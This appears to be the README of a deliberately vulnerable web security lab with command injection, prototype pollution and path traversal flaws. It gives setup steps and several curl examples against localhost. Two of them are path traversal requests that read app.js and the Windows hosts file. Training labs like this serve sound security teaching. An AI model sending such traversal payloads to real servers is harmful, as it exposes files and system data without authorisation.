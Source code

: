# Web Security Lab - Notes

# Setup

1. Install Node.js.
2. `cd` into the `src` folder, and run `npm install`.
3. Run `node app.js`.
4. Go to `http://localhost:80` in your browser.

Alternatively, you can use Docker:

    docker-compose up -d
    open http://127.0.0.1:8083/

# Experiments

This challenges have three vulnerabilities: OS command injection, prototype pollution and path traversal. Your task is to find out what you can do with these vulnerabilities.


curl -d "author='Matt'&raw='hello'" -X POST http://localhost:80/add_note

curl -X POST http://localhost:8000/mattliu-mygit/obj_name \
     -d '{ foo: "bar" }'

     curl -X GET http://localhost:80/img?id=../app.js
     curl -X GET http://localhost:80/img?id=../../../../../../../Windows/system32/drivers/etc/hosts
